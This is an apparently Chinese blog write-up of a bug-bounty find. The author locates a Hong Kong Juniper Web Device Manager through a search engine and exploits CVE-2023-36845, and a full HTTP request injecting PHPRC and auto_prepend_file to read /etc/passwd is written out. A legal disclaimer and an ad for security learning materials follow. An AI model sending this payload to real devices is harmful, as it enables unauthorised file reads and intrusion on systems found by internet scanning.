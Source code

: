 # 原创
：  记src一处Juniper远程命令执行

# 记src一处Juniper远程命令执行

### 一、hunter搜索web.title=”Juniper Web Device Manager”，查找到香港的一处资产。

### 二、访问相关网页，界面就是Juniper登录界面。

### 三、根据编号为CVE-2023-36845的利用方法，抓包，修改提交方式，成功读取到文件。

原始包如下：<br/>  

<br/> payload如下：
1.  `POST /?PHPRC=/dev/fd/0 HTTP/1.1` 1.  `Host: {{Hostname}}` 1.  `Content-Type: application/x-www-form-urlencoded` 1.   1.  `auto_prepend_file="/etc/passwd"` 
修改传参方式，并按照上述payload在路径后面拼接上”?PHPRC=/dev/fd/0”，请求体中加入auto_prepend_file参数。结果如下：

  申明：本账号所分享内容仅用于网络安全技术讨论，切勿用于违法途径，所有渗透都需获取授权，违者后果自行承担，与本号及作者无关，请谨记守法。

###### **免费领取安全学习资料包！**<img alt="" height="768" src="https://img-blog.csdnimg.cn/direct/2f74894cf8e04b7f87d9716681f6e26b.png" width="1024"/>

渗透工具

技术文档、书籍

<img alt="" height="516" src="https://img-blog.csdnimg.cn/direct/5b4209eac3784bd18f5e1cd6a5157e4e.png" width="852"/> <img alt="" height="523" src="https://img-blog.csdnimg.cn/direct/4a89b0c2a52a4f569a970e55dcbac0b4.png" width="856"/>

面试题

帮助你在面试中脱颖而出

视频

基础到进阶

环境搭建、HTML，PHP，MySQL基础学习，信息收集，SQL注入,XSS，CSRF，暴力破解等等

<img alt="" height="481" src="https://img-blog.csdnimg.cn/direct/4f211474c8ab4a5a910884e1d3423310.png" width="694"/> <img alt="" height="77" src="https://img-blog.csdnimg.cn/direct/54c2816350ae4bf787d1c6eec0d4e837.png" width="665"/>

应急响应笔记

学习路线
